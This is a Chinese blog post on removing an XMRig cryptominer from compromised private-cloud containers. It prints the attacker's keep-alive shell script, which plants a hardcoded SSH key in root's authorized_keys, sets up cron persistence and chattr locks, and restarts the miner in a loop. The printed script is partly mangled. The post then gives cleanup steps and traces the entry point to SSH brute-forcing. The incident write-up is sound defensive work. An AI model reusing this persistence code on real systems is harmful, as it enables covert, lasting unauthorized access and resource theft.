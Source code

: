 ```yaml
---
title:          "记录一次xmrig木马查杀"
subtitle:       ""
description:    ""
date:           2024-01-10T14:26:37+08:00
image:          "0.PNG"
tags:           ["Security"]
categories:     ["CODE"]
draft: false
---
```

![](./0.PNG)

## Start
尽管挖矿热潮逐渐消退，以太坊等一众主流虚拟货币不再推荐显卡挖矿。但是还是不乏一些恶趣味的黑客秉着“蚊子在小也是肉的原则”在公共网络上扫描网段寻找可用的肉鸡目标。

上家公司做私有云相关的业务，机器隔三差五就被日。其中最常见的就是挖矿病毒XMRig

> [XMRig](https://github.com/xmrig/xmrig) 是一款高性能、开源、跨平台 RandomX、KawPow、CryptoNight 和 GhostRider 统一 CPU/GPU 挖矿程序和 RandomX 基准测试。官方二进制文件适用于 Windows、Linux、macOS 和 FreeBSD。

简单讲XMRig本身只是单纯的用于[门罗币Monero]()/[比特币]()的挖矿软件，但是常被黑客搭配保活程序作为挖矿病毒使用。

## First
保活进程解析,我们将进程检索结果中这一大串异常的东西拿出来看看。

![](./1.PNG)
```
 #!/bin/bash
 #
 # 这里一处很狡猾的设计，程序的运行目录在/var/tmp/.logs/.xmr文件中，但这个文件在病毒成功启动后就会被删除
 FOLDER="$(cat /var/tmp/.logs/.xmr)"

 # 以下为黑客而已注入的SSH公钥
 sshkey="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfWpOBY9XU2gUh6bfANlquq8YWUNh+eZaodVBYCBaW+uq2eyNl5XjjM+r0FCPhatw5xK3MQTSWQha/5J6qQ/IPZSB0ycCRb/GLoMWMxuQ4LTXLFNBsS90G7oKj5seh1/LonfQL1qlhIG67SSxLhVUrhj9xZctwu7bp/BHUZYTH5qWKrOqV0sPgC3KxIEQV4Row7J1jQLeOGLUtrf33V3l/booVPCF2fJW7+KDnvjpb1tESr/udhQ6OJYdFdQiL75aJbKql3lOemM5MugebtW52MG/ZjI7TePYyqXcOV9MammvChxxslRWM81lMvDYe6S8pg/1aNbmeQJCpWkin5hN/ localhost"
 hashid="349d893caaedd7552248f00dbdab0737fdcc15aefd36825603d3fe84e62e39cf"
 ###########

 # 公钥注入函数
 placekey() {
 	.chattr -iajtdu "/root" ;
 	chattr -R -iajtdu "/root/.ssh"
 	.echo $sshkey >> "/root/.ssh/authorized_keys"
 	.chmod 600 "/root/.ssh/authorized_keys"
 	.chattr +ia "/root/.ssh/authorized_keys"
 }
 sshkeyset() {
 	.if [ $(id -u) = 0 ]; then
 		..if [ -d "/root/.ssh/" ] && [ -f "/root/.ssh/authorized_keys" ]; then
 			...if ! cat "/root/.ssh/authorized_keys" | grep -q "${sshkey}" ; then
 				....placekey
 			...fi
 		..else
 			...if [ ! -d "/root/.ssh/" ]; then
 				....chattr -iajtdu "/root"
 				....mkdir "/root/.ssh/"
 			...fi
 			...placekey
 		..fi
 	.fi
 }

 # 设定定时任务
 cronjob() {
 	.if ! crontab -l | grep -q 'updat3'; then
 		..if [ $(id -u) = 0 ]; then
 			...chattr -R -iajtdu /var/spool/cron/crontabs
 		..fi
 		..
 		..echo "@daily $FOLDER/start" > $FOLDER/.tempo
 		..echo "@reboot $FOLDER/updat3 > /dev/null 2>&1 & disown" >> $FOLDER/.tempo
 		..echo "@monthly $FOLDER/updat3  > /dev/null 2>&1 & disown" >> $FOLDER/.tempo
 		..crontab $FOLDER/.tempo
 		..sleep 1
 		..rm -rf $FOLDER/.tempo
 	.fi
 }  :
 # 删除自身
 delete() { 
 	.if [ -f $FOLDER/config.json ]; then
 		..chattr -R -iajtdu $FOLDER/config.json
 		..rm -rf $FOLDER/config.json
 		..sleep 1
 		..killall xmrig
 		..pkill xmrig
 	.fi
 }
 # xmrig启动函数
 run() {
 	.if ! pgrep -x xmrig >/dev/null; then
    # 这里会对xmrig程序进行hash校验，毕竟肥水不流外人田：有一种操作是后来的黑客利用之前人的病毒通过修改挖矿地址来修改受益对象。所以一旦发现文件 hash值被修改就会删除被修改的文件
 		..if [[ $hashid == $(sha256sum $FOLDER/xmrig | awk '{print $1}') ]]; then
 			...$FOLDER/xmrig > /dev/null 2>&1 & disown
 		..else
 			...chattr -R -iajtdu "$FOLDER" "/var/tmp/.logs/.xmr"
 			...rm -rf $FOLDER /var/tmp/.logs/.xmr
 			...crontab -r
 			...exit;
 		..fi
 	.fi
 }
 # 这里一处死循环，重复执行整个脚本以保证保活
 while : do
 	.sshkeyset
 	.sleep 1
 	.cronjob
 	.sleep 1
 	.delete
 	.sleep 1
 	.run
 	.sleep 60 done /var/tmp/.mint-xmr/updat3
```

简单讲如上脚本干了这么几件事情
- 首先是入侵者公钥的持久化
- 其次是自我修复，如果发现有人尝试移除未知公钥就会立刻添加回去
- 定时任务：通过crontab设置定时人物在系统启东时运行程序，并在每日，每次重启，每月进行更新，保证病毒运行
- 自我守护：通过不断检测xmrig是否运行，如果被终止脚本会立刻重启xmrig
- 自我防护：如果检测到xmrig被替换，脚本会删除xmrig并结束自身

  肥水不流外人田的设计，没有这一步，后来者黑客可以修改xmrig文件，替换其中的挖矿密钥使得收益归到后来者

- 文件锁： 对所有关键性文件都是用chattr命令设置为不可更改，防止被用户破坏

## Second - Clean

1. 首先要清理病毒原文件以及脚本文件。

    但是在之前说过，作者很狡猾，启动程序所在的目录是被写在一个临时文件中，这个文件又会在程序启动后被自我删除。

    于是只可以使用笨办法，根据其中的异常程序名称updat3做一定范围的全盘搜索

    ``` find / -path "/remote-home" -prune -o -name "updat3" -print```

    ![](./2.PNG)

    > _其实这里有个误区，因为当时公司做的是私有云服务，服务器主机中病毒后潜意识的以为病毒程序在宿主机中，但是事实上在容器内，所以一开始各种主机范围内目录的搜索都没有结果，百思不得其解_

    定位完成后删除所有相关文件

1. 终止所有异常进程，使用pkill

1. 清理黑客的ssh密钥

1. 清理contrab任务

## Third

在后续对入侵的溯源中发现了其他几个异常的容器，以及ssh日志大量的爆破记录。大致上可以确定入侵原因应该是弱口令。~~不过这几个容器的用户并没有承认就是了，乐~~ 因为宿主机服务器本身的密码是强密码，也没有存在什么对外暴露的服务，唯一有的只有被代理出去的容器ssh服务。

黑客利用了一些公网网络扫描工具发现了这些暴露出来的ssh端口服务，并对其进行爆破（在后续的检查中，所有的容器的ssh日志都存在不同程度的爆破记录）

![Alt text](image.png)

## Last

### 靠背哦，其实我是全栈开发来着！！！
